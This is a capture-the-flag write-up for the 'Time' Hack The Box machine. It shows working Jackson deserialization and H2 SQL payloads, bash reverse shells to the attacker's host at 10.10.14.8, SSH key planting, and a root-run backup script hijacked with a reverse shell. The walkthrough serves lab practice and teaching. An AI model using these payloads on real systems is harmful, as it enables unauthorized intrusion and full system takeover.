







---
search:
  exclude: true
---
# Time Writeup

## Introduction :

Time is a Medium Linux box released back in October 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~]
    → nmap -vvv -p- 10.10.10.214 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.10.10.214
    Discovered open port 80/tcp on 10.10.10.214
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~]
    → nmap -sCV -p22,80 10.10.10.214
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 11:08 CEST
    Nmap scan report for 10.10.10.214
    Host is up (0.46s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
    |   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
    |_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Online JSON parser
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 24.40 seconds
    
    

## **Part 2 : Getting User Access**

Now our nmap scan picked up port 80 so let's take a look at it: 

  

The website is basically a simple json parser, however when we take a look at the 'validate' option, giving it some random string makes it error out and reveals out the backend that's being used:
    
    
    Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'random': was expecting ('true', 'false' or 'null')
    
    

So now we know that this is jackson core json parser, so if we google for jackson CVEs we stumble upon this [jackson gadgets](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) blogpost which details how we can get the remote host to download a SQL file containing SHELLEXEC system commands: 

So let's prepare our payload:
    
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → vim inject.sql
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → cat inject.sql
    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.8/9001 0>&1')
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Bucket]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 2]
    [ 10.10.14.8/23 ] [ /dev/pts/16 ] [~/HTB/Bucket]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    
    

And to get the machine to download the sql file from us we will use the following: 
    
    
    [\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8:9090/inject.sql'\"}]
    
    #make sure to correct the payload like so:
    ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8:9090/inject.sql'"}]
    
    

So let's try it: 

click process and you will see the following:

So we got a reverse shell as the pericles user, before we continue let's upgrade our reverse shell to a fully interactive TTY:
    
    
    pericles@time:/var/www/html$ which python python3 curl wget
    which python python3 curl wget
    /usr/bin/python3
    /usr/bin/curl
    /usr/bin/wget
    pericles@time:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    pericles@time:/var/www/html$ ^Z
    [1]  + 23451 suspended  nc -lvnp 9001
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/Time]
    → stty raw -echo ; fg
    [1]  + 23451 continued  nc -lvnp 9001
                                         export TERM=screen-256color
    pericles@time:/var/www/html$ export SHELL=bash
    pericles@time:/var/www/html$ stty rows 50 columns 200
    pericles@time:/var/www/html$ reset
    
    pericles@time:/var/www/html$ cd ~
    pericles@time:/home/pericles$ cat user.txt
    32XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we got the user flag!

## **Part 3 : Getting Root Access**

Now in order to find a path to the root user, let's run linpeas.sh on the box after we login via SSH for ease of use: 
    
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Time]
    → cat ~/.ssh/mahakaliVM.pub
    ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOJqQ6+ycZGjPXSNkZ3zvgaHhEyLGcFb7fPfEIZSQl8 nothing@mahakali
    
    [terminal 2]
    pericles@time:/home/pericles$ mkdir ~/.ssh/
    pericles@time:/home/pericles$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMOJqQ6+ycZGjPXSNkZ3zvgaHhEyLGcFb7fPfEIZSQl8 nothing@mahakali' >> ~/.ssh/authorized_keys
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Time]
    → ssh pericles@10.10.10.214 -i ~/.ssh/mahakaliVM
    The authenticity of host '10.10.10.214 (10.10.10.214)' can't be established.
    ECDSA key fingerprint is SHA256:sMBq2ECkw0OgfWnm+CdzEgN36He1XtCyD76MEhD/EKU.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.214' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Sat 03 Jul 2021 03:58:19 PM UTC
    
      System load:             0.0
      Usage of /:              17.2% of 27.43GB
      Memory usage:            12%
      Swap usage:              0%
      Processes:               232
      Users logged in:         0
      IPv4 address for ens160: 10.10.10.214
      IPv6 address for ens160: dead:beef::250:56ff:feb9:31f0
    
    
    168 updates can be installed immediately.
    47 of these updates are security updates.
    To see these additional updates run: apt list --upgradable
    
    
    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    
    Last login: Fri Oct 23 09:19:19 2020 from 10.10.14.5
    pericles@time:~$
    
    [terminal 3]
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Time]
    → ls -lash linpeas.sh
    452K -rw-r--r-- 1 nothing nothing 452K Jul  1 20:22 linpeas.sh
    
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Time]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 1]
    pericles@time:~$ wget http://10.10.10.214:9090/linpeas.sh -O /tmp/peas.sh
    --2021-07-03 16:00:28--  http://10.10.10.214:9090/linpeas.sh
    Connecting to 10.10.10.214:9090... failed: Connection refused.
    pericles@time:~$ wget http://10.10.14.8:9090/linpeas.sh -O /tmp/peas.sh
    --2021-07-03 16:00:41--  http://10.10.14.8:9090/linpeas.sh
    Connecting to 10.10.14.8:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 462687 (452K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                                                100%[========================================================================================================================================>] 451.84K   192KB/s    in 2.3s
    
    2021-07-03 16:00:45 (192 KB/s) - ‘/tmp/peas.sh’ saved [462687/462687]
    
    pericles@time:~$ chmod +x /tmp/peas.sh
    pericles@time:~$ /tmp/peas.sh
    
    

` 

Let linpeas run a bit and then once it's done we scroll through the output to see the following hint: 

When we take a closer look at that script which is supposed to be ran as the root user, we see that it is actually owned by our user:
    
    
    pericles@time:~$ ls -lash /usr/bin/timer_backup.sh
    4.0K -rwxrw-rw- 1 pericles pericles 88 Jul  3 16:05 /usr/bin/timer_backup.sh
    
    

Netcat is on the box too, so let's put a simple bash reverse shell payload in it: 
    
    
    [terminal 1]
    pericles@time:~$ which nano
    /usr/bin/nano
    pericles@time:~$ nano /usr/bin/timer_backup.sh
    pericles@time:~$ cat /usr/bin/timer_backup.sh
    #!/bin/bash
    #zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
    bash -c "bash -i >& /dev/tcp/10.10.14.8/9002 0>&1"
    
    [terminal 2]
    [ 10.10.14.8/23 ] [ /dev/pts/13 ] [~/HTB/Time]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.214] 36874
    bash: cannot set terminal process group (33199): Inappropriate ioctl for device
    bash: no job control in this shell
    root@time:/# cat /root/root.txt
    cat /root/root.txt
    d1XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there you go! We managed to get the reverse shell connection as root and get the root flag. 

## **Conclusion**

Here we can see the progress graph :

